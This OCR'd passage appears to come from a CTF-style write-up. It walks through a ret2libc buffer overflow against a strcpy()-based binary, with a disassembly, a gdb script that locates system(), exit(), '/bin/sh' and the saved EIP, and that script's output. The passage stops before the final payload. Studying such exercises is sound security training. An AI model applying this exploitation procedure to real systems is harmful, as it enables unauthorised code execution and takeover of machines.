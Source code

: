 ```gdb
    0x08048419 <+37>:    lea    0x10(%esp),%eax
    0x0804841d <+41>:    mov    %eax,(%esp)
    0x08048420 <+44>:    call   0x8048300 <strcpy@plt> // Copy $ebp somewhere else
    0x08048425 <+49>:    lea    0x10(%esp),%eax
    0x08048429 <+53>:    mov    %eax,(%esp)
    0x0804842c <+56>:    call   0x8048310 <puts@plt> // Prints the result of strcpy()
    0x08048431 <+61>:    mov    $0x0,%eax
    0x08048436 <+66>:    leave
    0x08048437 <+67>:    ret
  End of assembler dump.
```

> Apparently, this program need one argument. It simply use [`strcpy()`](https://man7.org/linux/man-pages/man3/strcpy.3.html) to copy whatever we send before printing it using [`puts()`](https://man7.org/linux/man-pages/man3/puts.3.html). As stated in the man of `strcpy()`, If the destination string of a `strcpy()` is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.

We can create a **buffer overflow** that will override what's stored on [EIP register](https://security.stackexchange.com/questions/129499/what-does-eip-stand-for), to execute arbitrary code. This exploit is called a [ret2libc attack](https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3). To perform this attack we'll need few things:

- Find where [`system()`](https://man7.org/linux/man-pages/man3/system.3.html), [`exit()`](https://man7.org/linux/man-pages/man3/exit.3.html) and `/bin/sh` are stored in memory.
- Find where the buffer and EIP addresses are.

Let's use a quick gdb routine to get these informations...

```gdb
file /home/zaz/exploit_me
b *0x08048425
r 0000000000000000000000000000
p &system
p &exit
find &system, +999999999, "/bin/sh"
x $esp
info frame
```

> We create a breakpoint after `strcpy()` to locate where is the buffer using [ESP register](https://stackoverflow.com/questions/21718397/what-are-the-esp-and-the-ebp-registers), then we run the program with some arbitrary input. Get the adresses of `system()`, `exit()` and locate adress of `/bin/sh` between adresses of system and the rest of memory space. Finally fetch `esp` and `eip` using the [stack frame](https://www.techopedia.com/definition/22304/stack-frame#:~:text=A%20stack%20frame%20is%20a,pertaining%20to%20a%20subprogram%20call.&text=A%20stack%20frame%20also%20known%20as%20an%20activation%20frame%20or%20activation%20record.).

Running this routine gives the following:

```gdb
  $> gdb -x ret2libc.gdb --batch
  Breakpoint 1 at 0x8048425

  Breakpoint 1, 0x08048425 in main ()
  $1 = (<text variable, no debug info> *) 0xb7e6b060 <system>
  $2 = (<text variable, no debug info> *) 0xb7e5ebe0 <exit>  
  0xb7f8cc58
  warning: Unable to access target memory at <SOME-ADRESS>, halting search.
  1 pattern found.
  <SOME-ADRESS>: 0xbffff5b0
  Stack level 0, frame at <SOME-ADRESS>:
    eip = 0x8048425 in main; saved eip <SOME-ADRESS>
    Arglist at <SOME-ADRESS>, args:
    Locals at <SOME-ADRESS>, Previous frame's sp is <SOME-ADRESS>
    Saved registers:
      ebp at <SOME-ADRESS>, eip at 0xbffff63c
```